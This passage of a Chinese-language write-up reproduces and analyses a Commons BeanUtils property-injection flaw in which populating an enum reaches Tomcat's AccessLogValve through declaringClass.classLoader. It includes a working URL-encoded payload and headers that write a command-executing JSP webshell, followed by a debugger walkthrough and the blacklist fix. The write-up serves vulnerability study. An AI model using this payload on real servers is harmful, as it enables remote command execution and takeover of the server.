        Map<String, String[]> parameterMap = req.getParameterMap();
        Map<String, String> result = new HashMap<>();

        // 创建一个 User 对象，用于接收表单数据
//        User user = new User();

        // 将参数中的 String[] 转换为单个 String
        for (Map.Entry<String, String[]> entry : parameterMap.entrySet()) {
            String key = entry.getKey();
            String[] values = entry.getValue();
            String value = String.join(",", values);
            result.put(key, value);
        }
        UserEnum user = UserEnum.BOB;
        // 使用 BeanUtils 将参数填充到 user 对象中
        try {
            BeanUtils.populate(user, result);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        }

        // 输出 user 对象的属性
        PrintWriter out = resp.getWriter();
    }

    @Override
    public void destroy() {

    }
}
```

添加代码后直接启动就行。

### 漏洞复现

poc 和上面差不多

```
declaringClass.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&declaringClass.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&declaringClass.classLoader.resources.context.parent.pipeline.first.directory=E:/JavaSec/cbvul/out/artifacts/cbvul_Web_exploded&declaringClass.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&declaringClass.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

发送请求的时候还是需要带上header 头

```
"suffix":"%>//" 
"c1":"Runtime"  
"c2":"< %"
"DNT":"1"
```

执行后也是成功写入 webshell



### 漏洞分析

在 `BeanUtils.populate` 方法下上断点，一直跟进到setProperty ，在这里调用了getPropertyUtils().getProperty 方法来来获取对象该属性对应的值，在反序列化中 cb 链也学过，这个方法就是调用属性的 getter 方法



这里 `resolver.next(name)` 是 declaringClass，target 是我们的 enum 类，所以返回的 target 为调用 enum 的 getdeclaringClass 方法的返回结果，然后接着把删除当前 name 再进行循环，和 CVE-2022-22965 中的迭代逻辑差不多，最后直到 name 不是多级属性结束循环，

看到此时 name 为 perfix，target 为 AccessLogValve 对象，



最后一直调用到`getPropertyUtils().setProperty(target, name, newValue);`方法进行属性赋值



然后其他就没什么好说的了，最后也是通过覆盖调用原有日志文件的配置属性生成 webshell

### 漏洞修复

在 resetBeanIntrospectors 方法中添加了添加了黑名单，不允许调用到 getDeclaringClass 了，



## 参考

<https://mp.weixin.qq.com/s/Pz1iaKp1ZmrNS4iiTKyaZg>

<https://www.anquanke.com/post/id/272149#h3-10>

<https://forum.butian.net/share/1496>
